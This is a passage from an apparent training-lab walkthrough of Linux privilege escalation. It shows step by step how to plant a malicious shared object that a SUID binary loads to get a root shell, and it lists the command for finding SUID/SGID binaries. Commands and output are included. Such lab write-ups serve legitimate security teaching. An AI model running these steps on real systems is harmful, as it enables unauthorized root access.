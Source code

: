Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:
```
mkdir /home/user/.config
```
Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:
```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.
```
/usr/local/bin/suid-so
```
output:
```
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1#
```
That's it 😄

# Task 13 : SUID / SGID Executables - Environment Variables


Find all the SUID/SGID executables on the Debian VM:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
ouput will be like :
```
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```